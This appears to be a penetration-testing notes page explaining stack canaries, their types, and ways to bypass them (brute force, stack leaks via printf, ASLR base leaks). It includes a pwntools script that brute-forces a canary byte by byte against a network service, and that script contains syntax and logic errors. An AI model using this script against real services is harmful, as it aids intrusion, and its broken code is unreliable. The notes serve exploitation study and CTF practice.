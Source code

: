 # Canary Bypass

## Stack Canaries

Stack canaries are used to detect a stack buffer overflow before execution of any malicious code can occur. This method works by placing a **small integer**, which value has been randomly chosen at the start of the program within the stack **just before the stack return pointer**.&#x20;

We can illustrate how it works through analysing the stack contents:

<figure><img src="../.gitbook/assets/image (2493).png" alt=""><figcaption></figcaption></figure>

When the binary runs, it checks the canary and ensures that it does not change. If altered, the execution would end immediately.&#x20;

Stack canaries are checked for their value just before the return to the calling function, which is where attackers would normally gain control over the instruction pointer.&#x20;

### Types of Canaries

There are many types of canaries, but here are the most common ones:

|                   |                     |                          |
| ----------------- | ------------------- | ------------------------ |
| _Type_            | _Example_           | _Protection_             |
| Null canary       | 0x00000000          | 0x00                     |
| Terminator canary | 0x00000aff          | 0x00, 0x0a, 0xff         |
| Random canary     | \<any 4-byte value> | Usually starts with 0x00 |
| Random XOR canary |                     | Usually starts with 0x00 |
| 64-bit canary     | <8 bytes>           |                          |
| Custom canary     |                     |                          |

Each canary has their own set of advantages and security measures introduced:

* Null Canary is the most simple as it's just 4 NULL bytes. However, this is the most vulnerable of canaries because its predictable and **there are functions that can read null canaries**.
* Terminator Canaries introduces two or more hex values that attempt to terminate string operations. These values are still predictable
* Random Canaries are better in terms fo protection, and **usually consist of a NULL byte followed by 3 random bytes**. The NULL byte would attempt to terminate string operations, while the 3 random bytes will make the canary less predictable.
* The random XOR canary is similar to the random canary, but its value is XOR'd against a non-static value in the program, such as the EBP. Since most binaries run with ASLR enabled, this provides a lot more security.&#x20;

## Bypasses

### Brute Forcing

One of the ways is to brute force and randomly guess the canary. This only works **if the canary is a  static value and it has the same canary everytime** (common for network services). We can brute force a canary **char by char** and see if the program crashes or continues.

This is the python script I use to brute force canaries:

```python
from pwn import *

def connect():
    r = remote("localhost", 13337)
    
def get_cookie(base):
    canary = ''
    guess = 0x0
    base += canary
    
    while len(canary) < 8 # or 4 if 32-bit
        while guess != 0xff:
            r = connect()
            
            r.recvuntil("if needed")
            r.send(base + chr(guess))
            # add as many r.recvuntil as needed.
            
            if "OUTPUT IS PRODUCED" in r.clean():
                print("Guessed Correct bytes", format(guess, '02x')
                canary += chr(guess)
                base += chr(guess)
                guess = 0x0
                r.close()
                break
            else:
                guess += 1
                r.close()
        print(canary)
        return base
    
offset = 123
base = "A" * offset
base_canary = get_cookie(base)
print (base_canary)
```

The rough script is like this using `pwntools`.&#x20;

### Printing Stack Values

Another way is to print out the values of the stack and view the canary. Most canaries begin with the NULL byte of \x00, and we can make use of certain functions, like `printf` that may be running within the binary to see the values of the stack.&#x20;

Alternatively, one could create a script that would intercept the value of the canary and then send the exploit later with this value. In some cases, this is the only way to exploit the binary due to a randomised value.&#x20;

### ASLR Bypass

As with all ASLR bypasses, the main thing to leak is the **base address value**. This can be done through the usage of an LFI exploit to read the processes that are running (like in HTB Retired), or calculation of the base through brute-forcing the instruction and base pointer values.&#x20;

Once the base is leaked, the **offsets** can be calculated to create a ROP chain if needed.

